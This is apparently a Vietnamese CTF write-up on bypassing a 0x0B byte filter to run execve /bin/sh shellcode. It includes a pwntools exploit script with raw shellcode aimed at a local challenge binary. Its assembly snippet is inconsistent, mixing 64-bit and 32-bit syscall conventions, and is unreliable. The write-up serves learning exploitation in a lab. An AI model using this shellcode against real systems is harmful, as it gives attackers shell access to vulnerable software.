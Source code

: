 Chương trình cho phép nhập vào shellcode sau đó thực thi shellcode
Shellcode không cho phép kí tự 0B cũng chính là giá trị cần đưa vào eax để thực hiện lệnh ngắt execv
Để thực thi được /bin/sh shellcode cần đưa CPU về trạng thái như sau: EAX = 0xb, EBX = [địa chỉ chứa chuỗi /bin/sh], ECX = EDX = 0; Sau đó là thực thi câu lệnh int 0x80.
Để vẫn thực hiện lệnh ngắt thực thi vượt qua việc cấm này ta có thể sử dụng các câu lệnh như ADD, XOR, SUB. Ví dụ
xor eax, eax
add eax, 0x1
add eax, 0xa

![image](https://hackmd.io/_uploads/r1I17OKw6.png)

chúng ta thấy stack có quyền thực thi khi NX tắt và khi chạy đến ret() chúng ta sẽ được thực thi shell code mà chúng ta đã viết vào biến code trên stack

mình dùng https://defuse.ca/online-x86-assembler.htm#disassembly2 để viết shellcode

![image](https://hackmd.io/_uploads/S1pdNZiDp.png)

![image](https://hackmd.io/_uploads/BJF9NZova.png)


```python=
section .text
global _start
_start:
    mov al, 0x3b
    mov edi, 996700987
    push  edi
    mov edi, esp
    xor esi, esi
    xor edx, edx
    syscall
    mov al, 1
    int 0x80
```

![image](https://hackmd.io/_uploads/BJoPI_KvT.png)



```python=
#!/usr/bin/python3.7

from pwn import *

context.binary = exe = ELF('./Shellcode-1')

p = process(exe.path)

shellcode =b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x04\x0a\xfe\xc0\xcd\x80'
payload = shellcode
p.sendlineafter(b'0B\n', payload)
# p.sendline(b'cat flag')

p.interactive()
```
![image](https://hackmd.io/_uploads/Hkh1THqv6.png)
